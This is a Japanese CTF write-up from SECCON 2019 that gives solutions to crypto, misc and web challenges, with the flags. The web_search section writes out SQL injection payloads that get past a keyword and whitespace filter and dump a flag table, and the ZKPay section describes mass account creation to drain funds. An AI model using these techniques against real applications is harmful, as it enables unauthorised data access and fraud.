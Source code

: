 +++
title="[CTF Writeup] SECCON 2019 Online CTF"
description=""
date=2019-10-20

[taxonomies]
tags = ["CTF"]
#categories = ["programming", "misc.",]

[extra]
+++

<!-- bigimg: [{src: "/img/seccon-2019-online-ctf.png"}]
tags: ["CTF"] -->

[SECCON 2019](https://www.seccon.jp/2019/) 

チーム「./Vespiary」で出て 37 位 2402 点でした。
以下、自分が取り組んだ問題です（チームメンバーと解いたものを含む）。

<!-- {{< toc >}} -->

# [crypto] coffee_break
ソースコードを読んで逆算するプログラムを書けば良い。

```py
import sys
from Crypto.Cipher import AES
import base64

def decrypt(key, cipher):
    s = ''
    for i in range(len(cipher)):
        c = cipher[i] - 0x20 - (ord(key[i % len(key)]) - 0x20)
        if c < 0:
            c += (0x7e - 0x20 + 1)
        c += 0x20
        s += chr(c)
    return s

key1 = "SECCON"
key2 = "seccon2019"
cipher = AES.new(key2 + chr(0x00) * (16 - (len(key2) % 16)), AES.MODE_ECB)

encoded = "FyRyZNBO2MG6ncd3hEkC/yeYKUseI/CxYoZiIeV2fe/Jmtwx+WbWmU1gtMX9m905"

enc2 = base64.b64decode(encoded)
enc1_ = cipher.decrypt(enc2)

print(decrypt(key1, enc1_))
```

`SECCON{Success_Decryption_Yeah_Yeah_SECCON}`

# [misc] Beeeeeeeeeer
とりあえず与えられたシェルスクリプトを実行してみると、文字が増えたり消えたりするCUIアニメーションが表示される。シェルスクリプトで具体的に何が行われているか知るために**気合**で人力フォーマットと`echo`コマンドを駆使して解読していった。
適宜`bash -x`を使うことで楽に解読できる。

`SECCON{hogefuga3bash}`

# [crypto] ZKPay

signupにめちゃくちゃ時間がかかる。signupクエリを送った後に、homeへ移動してみると普通に利用できることがわかった。そこで、signupした直後にcreateQRをしてみたが、どうやら1分待たないと正常なQRコードが生成されない。

$1,000,000 / $500 = 2000 で自動化が現実的なので、2000個アカウントを生成してメインのアカウントにお金を送るスクリプトを書いた。

実行に3時間かかったが無事flagを得た。

![](https://i.gyazo.com/7be2f37c7e9749a01460b1d82a4c98a7.png)

# [web] web_search

適当に記号を入力してみると、`'`でErrorすることがわかる。
SQL injection を使う問題であることを疑い、色々実験すると、

- 空白文字` `が消える
- `,`が消える
- `or`,`and`が消える
- `oorr`が`or`になる
- `#`が効く
- `/**/`が空白代わりになる

などがわかる。

`#`が効くことからMySQLが使われていることが推測でき、
`'oorr'1'='1'#`で、
```
FLAG
The flag is "SECCON{Yeah_Sqli_Success_" ... well, the rest of flag is in "flag" table. 
Try more!
```
Flagの前半部分を得る。

`flag`テーブルにflagがあるようなので、UNIONを用いてflagを表示させたいが、`,`が消されるのでカラム数を合わせることが難しい。

CROSS JOIN を用いて、

`' OORR '1' = '1' /**/ UNION /**/ SELECT /**/ * /**/ FROM /**/ (SELECT /**/ * /**/ FROM /**/ flag)aaa /**/ CROSS /**/ JOIN /**/ (SELECT /**/ * /**/ FROM /**/ flag)bbb /**/ CROSS /**/ JOIN /**/ (SELECT /**/ * /**/ FROM /**/ flag)ccc#"`

を送信すると、フラグが得られる。

`SECCON{Yeah_Sqli_Success_You_Win_Yeah}`

# [crypto] Crazy Repetition of Codes

crc32は決定的な関数なので、鳩の巣原理よりcrcの値の周期が2^32以下であることがわかる。よって`int('1'*10000) % 周期`の回数crc32を実行すればいい。

# [misc] Sandstorm

![](https://i.gyazo.com/bb6d5672d1d08dbd55fcdfbef4c7384c.png)

画像に`My name is Adam`とあり、010 Editorなどのツールでファイルを見るとインターレースがAdam7になっているので[Adam7 algorithm - Wikipedia](https://en.wikipedia.org/wiki/Adam7_algorithm)が関係していそうとわかる。

これに着想を得て、8ピクセルごとにピクセルを抽出して画像にしてみると、

```py
from PIL import Image

img = Image.open('sandstorm.png')
W, H = img.size

img2 = Image.new('RGBA', (W//8, H//8))

for y in range(0,H//8):
    for x in range(0,W//8):
        img2.putpixel((x,y), img.getpixel((x*8,y*8)))

img2.save('img2.png')
```

![](https://i.gyazo.com/e5ccd541bf310d656aa11d8db1aec3d7.png)

QRコードが得られる。

`SECCON{p0nlMpzlCQ5AHol6}`

